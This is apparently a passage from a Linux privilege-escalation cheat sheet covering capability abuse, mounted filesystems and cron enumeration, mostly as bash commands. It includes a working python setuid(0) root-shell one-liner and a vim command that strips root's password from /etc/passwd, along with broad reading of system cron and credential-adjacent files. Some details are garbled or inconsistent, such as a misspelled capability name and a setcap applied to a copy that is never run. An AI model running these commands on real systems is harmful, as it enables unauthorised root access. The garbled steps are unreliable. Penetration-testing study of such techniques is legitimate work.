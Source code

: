 - `CAP_SETUID`, `CAP_SETGID` can set the  SUID and GID bits 
- `CAP_SYS_ADMIN` has broad administrative privileges.
- `CAP_DAC_OVERRIDER` Allows bypassing of file read, write, and execute permission checks.|

Find `setcap` with sticky bit permissions
```bash
# Find setcap here
find / -type f -perm -04000 -ls 2>/dev/null
# Ver the capabilities on a linux system
getcap -r / 2>/dev/null
# copy a binary we control without changing the original 
cp /usr/bin/python3 /tmp/python3 # or /dev/shm 
# give this binary the capabilites to setuid
setcap cap_setuid+ep python3
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

With `vim.basic` having `CAP_DAC_OVERRIDE`:
```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

## Unmounted Filesystems

```bash
mount -l
cat /etc/fstab # beware output length 
```

## Cron related 

```bash
cat /etc/crontab
ls -la [anyfiles] for permissions
cat [anyfiles] for wildcards in scripting
crontab -l # per-user user crontab!
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
ls -la /etc/cron.d
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

```bash
# Inspect cron log file for running jobs
grep "CRON" /var/log/syslog
```
